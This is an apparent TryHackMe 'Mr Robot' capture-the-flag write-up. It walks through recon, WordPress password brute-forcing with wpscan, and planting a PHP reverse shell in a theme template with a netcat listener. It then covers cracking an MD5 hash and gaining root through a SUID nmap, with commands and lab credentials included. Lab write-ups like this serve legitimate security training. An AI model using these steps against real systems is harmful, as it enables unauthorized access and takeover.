 # Tryhackme - [Mr Robot CTF](https://tryhackme.com/room/mrrobot)

## Recon:

`nmap -A 10.10.227.36` shows that there are 997 filtered port and port 22, 80 and 443 are filtered. This means that there is some kind of firewall blocking the nmap scans

Lets open the website anyway. the http site give a browser based shell with only few commands. The https site has a self signed certificate, and it also does the same thing

If we use `wakeup` command, then the port seems to be opened. 
Nothin interesting from the page source too

## File enumeration

lets run a gobuster on this.
`gobuster dir -u http://10.10.227.36/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

There is a /images page but we dont have permissions to access it. THere are lot of such pages with 301 return codes. 
/readme and /license have some text but not helpful

/robots has the hint for first key. 


/key-1-of-3.txt page has the first key

## wpscan

We also see wp-content and wp-login pages. So, we can run wpscan to find any wordpress vulnerabilities. I ran a wpscan using `wpscan --url 10.10.227.36`
It reveals /xlmrpc.php page, which says that this page accepts only POST requests
this can be used to enumerate usernames. 
However, I didn't find any valid users with wpscan
`wpscan --url http://10.10.197.250/ --enumerate u`

fsociety.dic is also found on /robots page. Going to /fsociety.dic lets us download the file, which is a list of words
Wordpress sites has permalinks to posts and pages and also user's pages. So, now that we have a word list that resembles usernames, we can check if any of them are valid. We can use `gobuster` to do this
`gobuster --url http://10.10.197.250/author/ -w fsociety.dic`

The fsociety.dic also has some strings resembling a password. We can use wpscan again to check if any password matches
Since it was taking a long time and the .dic is huge, i sorted the file
`cat fsociety.dic | sort -u | uniq > sorted.dic`
Now start the password brute forcing again
`wpscan --url http://10.10.197.250/ --usernames 'elliot','Elliot' --passwords sorted.dic`
Now the estimated time is around 30 mins. Earlier it was 4 hrs.

This gives us a valid password: ER28-0652 for elliot

After logging in, the user's dashboard is shown. The user doesnt have any posts or comments, but is an administrator. We can also see another user in the users tab. There are alos some images in media secion

## Reverse shell

We can install a vulnerable plugin or we can install a reverse shell for wordpress. We can also use metasploit to get a reverse shell using the module `exploit/unix/webapp/wp_admin_shell_upload`

```
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS 10.10.197.250
set USERNAME elliot
set PASSWORD ER28-0652
run
```
But somehow, it fails saying that the target doesnt appear to be a wordpress site

We can also inject malicious code into the appearence template. [reference](https://www.hackingarticles.in/wordpress-reverse-shell/)
In the appearence seciton of admin dashboard, we change the 404 error template to a php reverse shell. I am using the reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
Change the IP to your internal ip on tryhackme access page and the port to your netcat listener
`nc -lvnp 9001`

And now, going to the site 'http://10.10.197.250/wordpress/wp-content/themes/twentyfifteen/404.php' gives a reverse shell
The reverse shell is with user daemon. There is a second key key-2-of-3.txt and password.raw-md5 in /home/robot but can only be read by robot
So we need to escalate privileges

The password.raw-md5 file can be read by any user. And it gives a md5 hash
We can use hashcat to crack this md5
`hashcat -m 0 hash /usr/share/wordlists/rockyou.txt`
While it is running, we can also check at [hashkiller](https://hashes.com/decrypt/basic) if it can crack it.
Both have cracked it within few seconds 'c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz'
So, the password is *abcdefghijklmnopqrstuvwxyz*

Lets login to robot user with this password. It works and now we can read the second key

## Privilege escalation

We need to escalate privileges to get a root login and find the third key.
Lets check if robot has any sudo permissions using `sudo -l`
Looks like there are none. Lets check if there are any binaries with SUID set using `find / -perm 4000 2>/dev/null`

We can find that nmap in /usr/local/bin/nmap has SUID bit.
We can [exploit](https://gtfobins.github.io/gtfobins/nmap/) this.
```
TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
/usr/local/bin/nmap --script=$TF
```
This was not working. I've checked the nmap version and it is 3.81, which is quite old.
It also supports interactive mode using --interactive, which can be used to escalate privileges

```
nmap --interactive
!sh
```

We can use !bash instead, but somehow I am still robot when i use bash. But when i use sh, i am root.


the third key is in /root folder



